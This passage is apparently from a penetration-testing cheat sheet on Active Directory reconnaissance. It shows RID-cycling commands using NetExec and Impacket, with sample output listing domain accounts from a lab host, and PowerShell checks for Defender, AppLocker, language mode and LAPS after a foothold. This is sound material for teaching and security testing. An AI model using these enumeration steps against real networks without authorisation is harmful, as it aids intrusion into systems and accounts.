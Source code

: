 ## RID cycling

In Windows, every security principal (user, group, etc.) has a Security Identifier (SID). The SID is a unique identifier used for access control.

```ps1
S-1-5-21-<domain>-<RID>
```

* `S-1-5-21-<domain>` = Base domain SID
* `<RID>` = Unique ID assigned to a user/group

RID cycling involves brute-forcing a range of RIDs (like 500–1500) by appending them to the known domain SID, and attempting to resolve each SID into a username.

* Using [Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

  ```ps1
  netexec smb 10.10.11.231 -u guest -p '' --rid-brute 10000 --log rid-brute.txt
  SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
  SMB         10.10.11.231    445    DC01             [+] rebound.htb\guest:
  SMB         10.10.11.231    445    DC01             498: rebound\Enterprise Read-only Domain Controllers (SidTypeGroup)
  SMB         10.10.11.231    445    DC01             500: rebound\Administrator (SidTypeUser)
  SMB         10.10.11.231    445    DC01             501: rebound\Guest (SidTypeUser)
  SMB         10.10.11.231    445    DC01             502: rebound\krbtgt (SidTypeUser)
  ```

* Using Impacket script [impacket/lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)

  ```ps1
  lookupsid.py -no-pass 'guest@rebound.htb' 20000
  ```

## Enumerating Security Controls
> Now that we have a foothold, it's time to figure out what we're allowed to do/run

* **Windows Defender**
    ```powershell
    Get-MPComputerStatus
    ```
* **AppLocker**
    ```powershell
    Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
    ```
* **PowerShell Constrained Language Mode**
    ```powershell
    $ExecutionContext.SessionState.LanguageMode
    ```
* **LAPS**  
    Used to randomize and rotate local administrator credentials to prevent lateral movement
    We can use [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) functions to speed this up  
    